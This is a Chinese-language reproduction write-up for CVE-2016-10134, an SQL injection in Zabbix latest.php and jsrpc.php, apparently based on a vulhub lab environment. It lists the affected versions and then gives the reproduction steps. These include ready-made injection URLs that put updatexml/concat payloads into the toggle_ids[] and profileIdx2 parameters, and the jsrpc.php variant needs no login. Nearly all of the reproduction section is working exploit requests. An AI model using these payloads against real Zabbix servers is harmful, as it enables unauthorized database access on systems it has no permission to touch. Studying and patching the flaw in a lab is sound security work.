 （CVE-2016-10134）Zabbix latest.php sql注入漏洞
===============================================

一、漏洞简介
------------

Zabbix2.2.14之前的版本和3.0.4之前的3.0版本中存在SQL注入漏洞。远程攻击者可借助`latest.php`文件中的`toggle_ids`数组参数利用该漏洞执行任意SQL命令。

二、漏洞影响
------------

Zabbix2.2.14之前的版本和3.0.4之前的3.0版本

三、复现过程
------------

访问`http://www.0-sec.org:8080`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![1.png](./.resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId24.png)

将这16个字符作为sid的值，访问`http://www.0-sec.org:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![2.png](./.resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId25.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://www.0-sec.org:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![3.png](./.resource/(CVE-2016-10134)Zabbixlatest.phpsql注入漏洞/media/rId26.png)

参考链接
--------

> https://vulhub.org/\#/environments/zabbix/CVE-2016-10134/

